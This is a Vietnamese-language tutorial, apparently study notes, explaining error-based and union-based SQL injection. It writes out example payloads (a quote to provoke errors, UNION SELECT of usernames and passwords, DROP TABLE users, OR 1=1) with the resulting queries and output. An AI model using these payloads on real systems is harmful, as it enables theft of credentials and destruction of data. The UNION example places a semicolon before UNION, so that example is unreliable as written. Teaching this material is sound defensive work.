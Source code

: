 ![In-band SQLi](../img/Screenshot%202022-05-07%20161735.png)

# **1. In-band SQLi (Classic)**

- Tin tặc **_sử dụng cùng một kênh giao tiếp để thực hiện tấn công và thu thập thông tin_**. Dữ liệu truy xuất được hiển thị trực tiếp trên trang Web của ứng dụng.
- Đây là một trong số những kiểu tấn công SQLi phổ biến nhất, bởi sự **_đơn giản_** của nó.
- Có **_2_** kiểu tấn công In-band SQLi chính: **_Error-based SQLi_** và **_Union-based SQLi_**.

&nbsp;

## **1.1. Error-based SQLi**

### **1.1.1. Định nghĩa**

Tin tặc thực hiện một số hành động trên cơ sở dữ liệu, **_bắt buộc tạo ra thông báo lỗi_**. Sau đó, có thể **_trích xuất dữ liệu sử dụng những thông báo lỗi đó_**, ví dụ như cấu trúc cơ sở dữ liệu.

### **1.1.2. Khai thác Error-based SQLi**

- **_Gửi các ký tự dành riêng cho SQL, chẳng hạn như ' hoặc " và tìm lỗi hoặc các bất thường khác_**.
- **_Các ký tự khác nhau có thể trả về những lỗi khác nhau_**.

### **1.1.3. Ví dụ**

#### **a. Ví dụ 1**

Input

```
www.random.com/products?id="
```

Backend Query

```
SELECT * FROM products WHERE id="
```

Output

```
You have an error in your SQL syntax, check the manual that corresponds to your MySQL server version…
```

Diễn giải

Ứng dụng Web sử dụng `www.random.com/app.php/products?id=` để lấy thông tin về sản phẩm có id bất kì và URL có thể bị tấn công SQLi. Tin tặc sử dụng một dấu " khiến câu lệnh truy vấn lỗi và trả về Error Message. Error Message này có thể tiết lộ nhiều thông tin như Backend sử dụng DBMS nào, phiên bản bao nhiêu, thậm chí có thể là câu lệnh truy vấn SQL đã được sử dụng,... từ đó có thể gây ra những thiệt hại khác cho cơ sở dữ liệu của ứng dụng.

&nbsp;

## **1.2. Union-based SQLi**

### **1.2.1. Định nghĩa**

Kĩ thuật tấn công này hoạt động dựa trên **_toán tử UNION_**, **_kết hợp kết quả của nhiều truy vấn vào một tập kết quả duy nhất_** chứa những dữ liệu có ích cho tin tặc.

### **1.2.2. Khai thác Union-based SQLi**

Có hai quy tắc kết hợp tập kết quả của hai truy vấn sử dụng UNION:

- **_Số lượng và thứ tự của các cột phải giống nhau trong tất cả các truy vấn_**.
- **_Các kiểu dữ liệu phải tương thích_**.

Triển khai:

- Tìm ra **_số cột_** mà truy vấn đang thực hiện (**_sử dụng ORDER BY hoặc giá trị NULL_**)
- Tìm ra **_kiểu dữ liệu_** của các cột (chủ yếu quan tâm đến dữ liệu chuỗi)
  - **_Thăm dò từng cột để kiểm tra xem nó có thể chứa dữ liệu chuỗi hay không_** bằng cách gửi một loạt các câu lệnh UNION SELECT lần lượt đặt một giá trị chuỗi vào mỗi cột.
- Sử dụng **_toán tử UNION_** để xuất thông tin từ cơ sở dữ liệu.

### **1.2.3. Ví dụ**

#### **a. Ví dụ 1**

Input

```
www.random.com/products?id=1; UNION SELECT username, password FROM users --
```

Backend Query

```
SELECT * FROM products WHERE id=1; UNION SELECT username, password FROM users --;
```

Output

```
user #1
afibh9cjnkuwcsfobs7h
user #2
sdkfhdshfkjđsfhkjdsh
administrator
tn8f921skp5dzoy7hxpk
...
```

Diễn giải

Tin tặc sử dụng toán tử UNION để kết hợp kết quả của câu lệnh truy vấn sản phẩm có id là 1 với câu lệnh truy vấn Username, Password của tất cả người dùng trong bảng Users, từ đó lấy được toàn bộ thông tin nhạy cảm của tất cả người dùng trên hệ thống, thậm chí là thông tin của người dùng quản trị viên.

**_<p style="color: yellow;">Một số biến thể</p>_**

#### **b. Ví dụ 2**

Input

```
www.random.com/products?id=1; DROP TABLE users --
```

Backend Query

```
SELECT * FROM products WHERE id=1; DROP TABLE users --;
```

Output

```
product #1
Users Table Dropped!
```

Diễn giải

Tin tặc không chỉ lấy những dữ liệu nhạy cảm mà đồng thời còn inject đoạn mã xóa bảng Users trong cơ sở dữ liệu, gây thiệt hại đáng kể cho ứng dụng.

#### **c. Ví dụ 3**

Input

```
www.random.com/products?id=' OR 1=1 --
```

Backend Query

```
SELECT * FROM products WHERE id='' OR 1=1 --;
```

Output

```
product #1
product #2
product #3
...
```

Diễn giải

Tin tặc chỉ cần thay đổi Input hợp lệ bằng một đoạn mã SQL đơn giản đã có thể lấy ra toàn bộ thông tin của tất cả các sản phẩm có trong cơ sở dữ liệu. Bởi 1=1 là một điều kiện luôn đúng nên giá trị của mệnh đề WHERE luôn là TRUE, do đó câu lệnh trên sẽ luôn trả về toàn bộ bản ghi có trong bảng.
